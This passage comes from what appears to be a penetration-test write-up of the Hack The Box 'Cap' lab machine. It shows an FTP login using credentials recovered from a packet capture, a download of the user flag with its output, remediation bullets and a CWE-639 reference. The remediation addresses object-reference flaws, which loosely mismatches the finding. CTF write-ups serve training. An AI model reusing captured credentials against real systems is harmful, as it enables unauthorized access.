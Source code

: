 Using the credentials found in the pcap file, the tester was able to login to the FTP service and access the file `user.txt` which contains the user flag.

```less
┌─[r4ndhex@parrot]─[hackthebox/machine/cap/files]
└──╼ $ ftp cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:r4ndhex): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15035|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Oct 23 12:59 user.txt
226 Directory send OK.
ftp> 

ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||24115|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |******************************************************************************************|    33      259.89 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.04 KiB/s)
ftp> exit
221 Goodbye.

┌─[r4ndhex@parrot]─[hackthebox/machine/cap/files]
└──╼ $ cat user.txt 
29162a245182e8e3a3293f205f32ef5e
```
> This demonstrates the file user.txt was downloaded from using the credentials exposed in 0.pcap within the FTP service.

#### 1.1.1.4 Remediation

- Validate authorization on every object access.  
- Use indirect references (UUIDs, per-user tokens) not sequential IDs.  
- Enforce server-side access checks, never rely on client input.  
- Add logging/alerting for abnormal object access patterns.  
- Add automated tests for access-control checks (unit + integration).

#### 1.1.1.5 Reference

| Name / CVE / CWE | Score | Description                                      | Security Impact                                           | Affected Domain         | External References                                                                                |
| ---------------- | ----- | ------------------------------------------------ | --------------------------------------------------------- | ----------------------- | -------------------------------------------------------------------------------------------------- |
| **CWE-639**      | N/A   | Authorization Bypass Through User-Controlled Key | Allows attackers to access or modify other users’ data \| | Web Applications / APIs | [https://cwe.mitre.org/data/definitions/639.html](https://cwe.mitre.org/data/definitions/639.html) |
